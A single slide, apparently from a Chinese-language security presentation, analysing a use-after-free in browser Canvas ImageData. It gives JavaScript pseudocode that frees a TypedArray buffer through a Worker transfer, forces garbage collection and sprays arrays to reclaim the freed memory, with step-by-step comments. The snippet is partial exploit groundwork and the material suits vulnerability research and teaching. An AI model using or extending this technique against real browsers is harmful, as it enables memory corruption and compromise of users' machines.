

04
Canvas ImageData UAF漏洞分析及利用：漏洞利用一
伪代码

var canvas = document.getElementById('canvas');
var ctx = canvas.getContext('2d', {alpha: false});
var ta = new Uint8ClampedArray(ab)
var imageData = new ImageData(ta, 0x80, 0x80);

w = new Worker(null);
w.postMessage("ok", [ta.buffer]);
w.terminate();
w = null;
CollectGarbage();
for(var i=0;i<0x80000;i++){
    zz[i] = new Array(0x10);
}

//创建一个Unit8ClampedArray的TypedArray

//创建引用Unit8ClampedArray,长宽各0x80的ImageData

//释放ImageData中TypedArray的buffer

//通过Array(0x10)占位